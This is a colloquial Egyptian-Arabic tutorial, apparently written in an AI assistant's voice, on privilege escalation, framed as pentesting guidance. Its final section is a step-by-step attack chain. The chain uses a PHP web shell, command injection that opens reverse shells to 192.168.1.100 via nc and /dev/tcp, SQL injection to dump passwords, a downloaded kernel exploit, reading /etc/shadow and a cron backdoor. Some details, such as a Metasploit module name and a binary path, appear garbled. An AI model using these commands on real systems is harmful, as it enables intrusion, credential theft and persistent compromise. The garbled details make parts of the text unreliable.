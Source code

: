 تمام، هشرح لك "The Importance of Privilege Escalation in Real-World Attack Scenarios" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. ليه Privilege Escalation مهم في هجمات العالم الحقيقي؟**

#### **الشرح العميق:**
في هجمات العالم الحقيقي، Privilege Escalation (تصعيد الصلاحيات) هو المفتاح اللي بيحول هجوم بسيط لكارثة كبيرة. لما المهاجم يدخل نظام أو موقع كمستخدم عادي (low privilege)، غالبًا ما يكون محدود جدًا في اللي يقدر يعمله. لكن لو قدر يصعد صلاحياته – سواء أفقيًا (ياخد حساب مستخدم تاني) أو عموديًا (يبقى أدمن أو root) – بيقدر يتحكم في النظام كله، يسرق بيانات، يزرع برمجيات خبيثة، أو يدمر كل حاجة. في السيناريوهات الحقيقية زي اختراق الشركات أو البنوك، التصعيد ده بيكون الهدف الأساسي عشان يضمن أكبر ضرر أو ربح.

#### **الأدوات والأوامر العملية:**
1. **فحص نقطة البداية:**
   - لو دخلت نظام كمستخدم عادي (مثل www-data من ثغرة ويب):
     - `id` (في لينكس) -> `uid=33(www-data)`.
     - `whoami` (في ويندوز) -> `webuser`.
   - الهدف: تبدأ تدور على طريقة تطلع من هنا لفوق.

2. **استغلال سوء إعدادات:**
   - لو لقيت أمر زي `sudo -l` يقولك إنك تقدر تشغل حاجة كـ root:
     - مثال: `(root) NOPASSWD: /bin/bash`.
     - شغل: `sudo /bin/bash` -> بقيت root.

3. **مثال واقعي (Web Shell):**
   - لو لقيت ثغرة File Upload في موقع:
     - ارفع ملف PHP: `<?php system($_GET['cmd']); ?>`.
     - افتح: `http://target.com/uploads/shell.php?cmd=whoami`.
     - لو رجعلك `www-data`، ابدأ رحلة التصعيد.

#### **خلاصة بالعامية المصرية:**
"يعني التصعيد زي ما تكون داخل بيت كضيف، بس لو لقيت السلم السري وطلعت لأوضة صاحب البيت، بقيت أنت الكبير! في الهجمات الحقيقية، من غير التصعيد ده هتفضل تلعب في الصغير وماتعملش حاجة كبيرة."

---

### **2. تأثيره في سيناريوهات حقيقية**

#### **الشرح العميق:**
في العالم الحقيقي، المهاجمين بيستخدموا Privilege Escalation عشان يحققوا أهداف كبيرة زي:
- **سرقة بيانات حساسة:** زي بيانات العملاء في شركة أو كروت الائتمان.
- **زرع Ransomware:** لو وصلت لـ root، تقدر تقفل النظام كله وتطلب فدية.
- **التجسس طويل الأمد:** بتخلّي المهاجم يفضل جوا النظام من غير ما حد يكتشفه.
- **هجمات متسلسلة:** يستخدم النظام المخترق كقاعدة لمهاجمة أنظمة تانية.

مثلاً، في هجمات زي WannaCry أو NotPetya، التصعيد كان جزء أساسي عشان البرمجية الخبيثة تنتشر وتدمر أنظمة كاملة بعد ما استغلت ثغرات للوصول لصلاحيات أعلى.

#### **الأدوات والأوامر العملية:**
1. **استغلال ثغرة معروفة:**
   - لو لقيت نظام قديم (مثل Windows XP أو Linux Kernel 2.6):
     - `searchsploit windows xp sp3`.
     - نزل Exploit، شغله عشان تاخد System.
   - في لينكس: `uname -r` -> `2.6.32` -> `searchsploit linux kernel 2.6.32`.

2. **Metasploit للتصعيد:**
   - `msfconsole`.
   - `use exploit/windows/local/ms10_015_ki trap0d`.
   - `set SESSION <session_id>` (من جلسة سابقة).
   - `exploit` -> لو نجحت، بقيت System.

3. **في الويب (Command Injection):**
   - لو موقع فيه ثغرة زي: `http://target.com/ping?ip=127.0.0.1`:
     - `http://target.com/ping?ip=127.0.0.1; whoami`.
     - لو نجحت، حاول تاخد shell كامل:
       - `http://target.com/ping?ip=127.0.0.1; nc -e /bin/bash 192.168.1.100 4444`.

#### **خلاصة بالعامية المصرية:**
"في الدنيا الحقيقية، التصعيد ده زي ما تكون لقيت كنز في لعبة، لو مسكته بقيت اللي بيحرك الكل! من غيره، المهاجم هيفضل واقف مكانه زي الجزمة، لكن لما يصعد، يبقى هو الباشا ويعمل اللي عايزه."

---

### **3. ليه الموضوع ده حاسم؟**
- **بدون تصعيد:** المهاجم بيفضل محصور في ركن صغير، يعني يسرق حاجة بسيطة ويطلع.
- **مع تصعيد:** بيبقى عنده القدرة يخرب بيوت، يسرق شركات، أو يسيطر على شبكات كاملة.
- **في الـ Pentesting:** لازم تثبت للعميل إن الثغرة بتاعته مش بس بتفتح الباب، لكن ممكن تدمرله حياته لو ما أصلحهاش.

#### **خلاصة بالعامية المصرية:**
"التصعيد ده اللي بيفرق بين واحد بيلعب ع المصغر وواحد بيحرك العرباية الكبيرة! من غيره، المهاجم زي الكتكوت، لكن لما يصعد، يبقى الأسد بتاع الغابة."

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.
  - Port 22: OpenSSH 5.3.

#### **الخطوة 2: إيجاد نقطة دخول**
- جرب ثغرة في الويب:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id`.
  - لو رجعلك `www-data`، يبقى دخلت كمستخدم عادي.

#### **الخطوة 3: محاولة تصعيد أفقي**
- لو لقيت قاعدة بيانات:
  - `http://192.168.1.10/user?id=1 UNION SELECT 1,username,password FROM users --`.
  - لو جابلك بيانات مستخدمين، جرب تدخل بحساب أدمن (تصعيد أفقي لو مش root).

#### **الخطوة 4: تصعيد عمودي**
- من الثغرة اللي لقيتها:
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - على جهازك: `nc -lvnp 4444` -> لو نجحت، هتاخد shell.
- في الـ Shell:
  - `id` -> `www-data`.
  - `sudo -l` -> لو لقيت `(root) NOPASSWD: /usr/bin/find`:
    - `sudo find / -exec /bin/bash \;` -> بقيت root.
- لو مفيش sudo:
  - `uname -r` -> `2.6.32`.
  - `searchsploit linux kernel 2.6.32` -> نزل exploit (زي Dirty COW):
    - `wget http://192.168.1.100/dirtycow.c -O /tmp/dc.c`.
    - `gcc /tmp/dc.c -o /tmp/dc`.
    - `./tmp/dc` -> `id` -> `uid=0(root)`.

#### **الخطوة 5: تطبيق سيناريو واقعي**
- لو وصلت root:
  - استخرج بيانات: `cat /etc/shadow`.
  - زرع backdoor: `echo 'nc -e /bin/bash 192.168.1.100 9999' > /etc/cron.d/backdoor`.
  - وثّق كل حاجة في تقريرك للعميل.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون بتلعب لعبة حرب: بدأت جندي صغير، لقيت سلاح، كبرت، وفي الآخر بقيت القائد بتاع المعركة! التصعيد هو اللي هيخليك تكسب الماتش."

---

### **الخلاصة النهائية:**
Privilege Escalation في العالم الحقيقي هو اللي بيحول هجوم عادي لكابوس كبير. بدون ما تصعد، هتفضل تلعب في الزاوية، لكن لما توصل للأعلى، بتبقى أنت اللي بتحرك اللعبة كلها. في الـ Pentesting، استخدم أدوات زي Nmap، Metasploit، وثغرات الويب عشان تثبت للعميل إنك مش بس بتفتح الباب، لكن ممكن تاخد البيت كله لو عايز!